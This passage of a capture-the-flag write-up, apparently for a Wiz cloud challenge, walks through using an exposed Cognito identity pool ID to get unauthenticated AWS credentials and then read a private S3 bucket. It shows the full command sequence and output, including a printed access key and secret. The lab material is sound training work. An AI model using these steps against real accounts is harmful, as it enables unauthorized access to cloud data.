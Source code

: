 ```
      $('#signedImg').attr('src', url);
    });
});
```

Using the pool ID, we can request a Cognito ID.
```
> aws cognito-identity get-id --identity-pool-id us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b
{
    "IdentityId": "us-east-1:8942d0d9-2a33-4114-9c1c-664a7a785856"
}
```

And for this identity, we now can request credentials.
```
> aws cognito-identity get-credentials-for-identity --identity-id us-east-1:8942d0d9-2a33-4114-9c1c-664a7a785856
{
    "IdentityId": "us-east-1:8942d0d9-2a33-4114-9c1c-664a7a785856",
    "Credentials": {
        "AccessKeyId": "ASIARK7LBOHXIIKE466O",
        "SecretKey": "tS1WxVdGq5VaG/tii3kBXX+5+1C3V+8fhjNHKTW/",
        "SessionToken": "LONG_SESSION_TOKEN",        
        "Expiration": 1704627931.0
}
```

I set the three environment variables `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN` to the given credentials on my own host, which led to the following access:

```
$ aws sts get-caller-identity
{
    "UserId": "AROARK7LBOHXJKAIRDRIU:CognitoIdentityCredentials",
    "Account": "092297851374",
    "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessUnauth_Role/CognitoIdentityCredentials"
}
```

With this I could now access the bucket and flag.
```
$ aws s3 ls s3://wiz-privatefiles/
2023-06-05 21:42:27       4220 cognito1.png
2023-06-05 15:28:35         37 flag1.txt
```

```
$ aws s3 cp s3://wiz-privatefiles/flag1.txt .
download: s3://wiz-privatefiles/flag1.txt to ./flag1.txt  
```

```
$ cat flag1.txt 
{wiz:incognito-is-always-suspicious}
```
